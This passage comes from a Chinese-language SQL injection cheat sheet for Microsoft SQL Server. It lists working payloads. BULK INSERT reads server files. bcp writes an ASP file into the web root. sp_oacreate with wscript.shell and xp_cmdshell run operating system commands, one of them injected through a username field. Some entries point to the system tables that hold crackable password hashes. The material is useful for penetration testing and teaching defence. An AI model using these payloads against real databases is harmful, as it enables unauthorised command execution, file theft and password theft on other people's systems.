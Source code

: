     你在遇到union错误之前会先遇到convert()错误，所以先使用convert()再用union

#### 有用的函数、信息收集、内置程序、大量注入笔记

    -->@@version(MS)
    数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

    INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

    -->文件插入(Bulk Insert)(S)

    把文件内容插入到表中。如果你不知道应用目录你可以去读取IIS metabase file(仅IIS 6)(%systemroot%\system32\inetsrv\MetaBase.xml)然后在里面找到应用目录。

    新建一个表foo(line varchar(8000))
    BULK INSERT foo FROM 'c:\inetpub\wwwroot\login.asp'
    DROP了临时表，重复另一个文件

    -->BCP(S)

    写入文件。这个功能需要登录 bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar

    -->SQL Server的VBS/WSH(S)

    由于ActiveX的支持，你能在SQL Server中使用VBS/WSH

    declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe'

    Username: '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' --

    -->执行系统命令，xp_cmdshell(S)

    众所周知的技巧，SQL Server 2005默认是关闭的。你需要admin权限

    EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'

    用ping简单的测试一下，用之前先检查一下防火墙和嗅探器。

    EXEC master.dbo.xp_cmdshell 'ping '

    如果有错误，或者union或者其他的什么，你都不能直接读到结果。

    -->SQL Server中的一些特殊的表(S)

    Error Messages

    master..sysmessages

    Linked Servers

    master..sysservers

    Password (2000和2005版本的都能被破解，这俩的加密算法很相似)

    SQL Server 2000: masters..sysxlogins

    SQL Server 2005 : sys.sql_logins

    -->SQL Server的其它内置程序(S)
